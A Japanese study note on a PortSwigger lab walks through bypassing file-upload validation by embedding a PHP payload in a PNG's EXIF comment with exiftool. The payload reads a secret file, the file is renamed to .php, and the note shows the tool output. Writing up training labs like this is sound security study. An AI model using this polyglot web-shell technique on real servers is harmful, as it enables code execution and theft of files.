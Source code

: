 
Date: 2025-09-25
Tags: 
Links:  [[WSA]], [[File Upload Vulnerabilities]]

***
メタデータの書き換えによるバイパス

Similarly, certain file types may always contain a specific sequence of bytes in their header or footer. These can be used like a fingerprint or signature to determine whether the contents match the expected type. For example, JPEG files always begin with the bytes `FF D8 FF`.

**exiftool**によってメタデータを書き換えられる。


## Lab

1. 拡張子、MIME書き換えでも無理
2. メタデータを書き換える。
3. pngファイルのexifコメントヘッダにペイロードを挿入。拡張子はphpに。
```sh
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" image.png -o polyglot.php
```

```sh
exiftool polyglot.php

ExifTool Version Number         : 13.25
File Name                       : polyglot.php
Directory                       : .
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 204
Image Height                    : 232
Bit Depth                       : 8
Color Type                      : RGB with Alpha
XMP Toolkit                     : XMP Core 6.0.0
Comment                         : <?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>
Image Size                      : 204x232
```

4. アクセスするとコメントヘッダに書いたスクリプトが実行される。

>拡張子がpngのままだと実行されない。
***
# References

https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload